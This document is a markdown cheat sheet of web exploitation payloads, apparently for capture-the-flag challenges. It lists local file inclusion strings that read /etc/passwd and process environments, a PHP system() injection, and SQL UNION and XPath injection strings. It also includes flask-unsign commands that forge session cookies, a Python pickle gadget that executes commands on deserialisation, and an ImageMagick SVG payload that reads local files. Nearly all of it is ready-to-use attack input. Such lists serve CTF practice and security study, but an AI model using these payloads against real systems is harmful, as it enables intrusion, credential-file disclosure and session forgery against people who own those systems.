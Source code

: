 ### Interesting files

- `/robots.txt`
- `/.git`
- `/sitemap.xml`

### Interesting protocols

- `file:///etc/passwd`

### Local File Inclution

- `?file=php://filter/convert.base64-encode/resource=/etc/passwd`
- `?file='.system("cat /flag*").'`
- `../../../../../../proc/1/environ`

### SQLi

- `UNION`

```
' UNION SELECT current_database() as name --
' AND 1=0 UNION SELECT COLUMN_NAME FROM information_schema.COLUMNS --
```

### XPath Injection

```
'or string-length(name(.))=5 or '!'='
' or substring(//user[userid=5]/username,2,1)=codepoints-to-string(INT_ORD_CHAR_HERE) or '!'='
'or contains(.,'admin') or'
a' or (substring((//flag)[1], 1, 1)) = 'a
```

### Type juggling with data

- `Playing with header`

  - `curl -H "User-Agent: SUPER SECRET AGENT" http://victim.com/`
  - [code](https://github.com/ByamB4/CCC/blob/master/Web%20Exploitation/src/post-nullbyte.py)

### Server side template injection (SSTI)

- `Python`

  - Filtered `.`, `[]`
    - `obj.attribute` -> `obj|attr('attribute')` (`attr` is a filter in jinja template engine)
    - `obj[index]` -> `obj.__getitem__(index)` -> `obj|attr('__getitem__')(index)`
    - `obj['key']` -> `obj.__getitem__('key')` -> `obj|attr('__getitem__')('key')`

### JWT

- `Flask session cookie`
    - `flask-unsign --decode --cookie eyJsb2dnZWRfaW4iOmZhbHNlfQ.Yg9geQ.s8MKSRemMQyS5S60QTS0lY0Xg0o`
    - `flask-unsign --unsign --cookie < cookie.txt`
    - `flask-unsign --sign --cookie "{'logged_in': True}" --secret 'password'`
    
- https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee


### Python pickle

```python
import pickle, base64

class DillPickle:
  def __reduce__(self):
    import subprocess
    return (subprocess.check_output, (['/bin/cat', '/ls'],))

p = pickle.dumps(DillPickle())
print(base64.b64encode(p).decode('ASCII'))
```

### Imagemagick

- File upload read local file (xxe)

  - Payload 
    ```
      <?xml version="1.0" encoding="UTF-8"?>
      <svg width="500px" height="500px">
        <image width="500" height="500" href="text:/etc/passwd" />
      </svg>
    ```

